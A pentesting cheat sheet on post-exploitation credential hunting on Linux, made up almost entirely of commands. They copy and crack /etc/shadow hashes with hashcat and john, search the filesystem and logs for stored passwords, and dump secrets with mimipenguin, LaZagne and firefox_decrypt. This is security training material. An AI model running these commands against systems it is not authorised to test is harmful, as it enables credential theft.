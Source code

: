 ```yaml
---
title: Linux Credential Hunting
category: Post-Exploitation
tags: [linux, credential-hunting, passwd, shadow, unshadow, logs]
tools: ['john', 'hashcat', 'mimipenguin', 'lazagne', 'firefox_decrypt']
---
```


# Linux Credential Hunting

Techniques for finding and extracting credentials on Linux systems, including password hashes, config files, and memory.

---

## Tools

| Tool                                                       | Description                                                  |
| ---------------------------------------------------------- | ------------------------------------------------------------ |
| [MimiPenguin](https://github.com/huntergregal/mimipenguin) | Dump the login password from current user                    |
| [LaZagne](https://github.com/AlessandroZ/LaZagne)          | **Retrieve lots of passwords** stored on a local computer    |
| Firefox Decrypt                                            | Tool to extract passwords from Mozilla profiles (Firefox, Thunderbird) |

---

## Local Password Hashes

### Passwd and Shadow Files

```bash
# Copy passwd, shadow, and opasswd (old passwords)
sudo cp /etc/passwd /tmp/passwd.bak
sudo cp /etc/shadow /tmp/shadow.bak
sudo cat /etc/security/opasswd
```

### Cracking Credentials

```bash
# Combine passwd and shadow for cracking
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes

# Crack with hashcat
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked

# John single crack mode (based on username)
grep martin unshadowed.hashes > passwd
john --single passwd
```

---

## Searching for Credentials in Files

```bash
# Find config files
for l in $(echo ".conf .config .cnf"); do
  echo -e "\nFile extension: $l"
  find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core"
done

# Search configs for keywords
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib"); do
  echo -e "\nFile: $i"
  grep "user\|password\|pass" $i 2>/dev/null | grep -v "#"
done
```

### Databases and Notes

```bash
# Search for database files
for l in $(echo ".sql .db .*db .db*"); do
  echo -e "\nDB File extension: $l"
  find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man"
done

# Search for text notes
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

### Scripts

```bash
# Likely to contain creds (Python, Perl, Bash, etc.)
for l in $(echo ".py .pyc .pl .go .jar .c .sh"); do
  echo -e "\nFile extension: $l"
  find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share"
done
```

---

## Logs and History

```bash
# Interesting locations
/etc/cron
~/bash_history
```

### Common Logs

| File                | Description                          |
| ------------------- | ------------------------------------ |
| `/var/log/messages` | Generic system logs                  |
| `/var/log/auth.log` | Authentication logs (Debian)         |
| `/var/log/secure`   | Authentication logs (RedHat/CentOS)  |
| `/var/log/syslog`   | Generic system logs                  |
| `/var/log/boot.log` | Boot information                     |
| `/var/log/kern.log` | Kernel warnings and errors           |
| `/var/log/faillog`  | Failed login attempts                |
| `/var/log/cron`     | Cron job logs                        |
| `/var/log/mail.log` | Mail server logs                     |
| `/var/log/httpd`    | Apache logs                          |
| `/var/log/mysqld.log` | MySQL logs                        |

```bash
# Grep for login activity in logs
for i in $(ls /var/log/* 2>/dev/null); do
  GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND=\|logs" $i 2>/dev/null)
  if [[ $GREP ]]; then
    echo -e "\n#### Log file: $i"
    echo "$GREP"
  fi
done
```

---

## Memory and Cache Tools

```bash
# Dump current desktop password
sudo python3 mimipenguin.py

# Retrieve stored creds from many apps
sudo python2.7 laZagne.py all

# Decrypt Firefox credentials
ls -l .mozilla/firefox/ | grep default
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
python3.9 firefox_decrypt.py
```

---
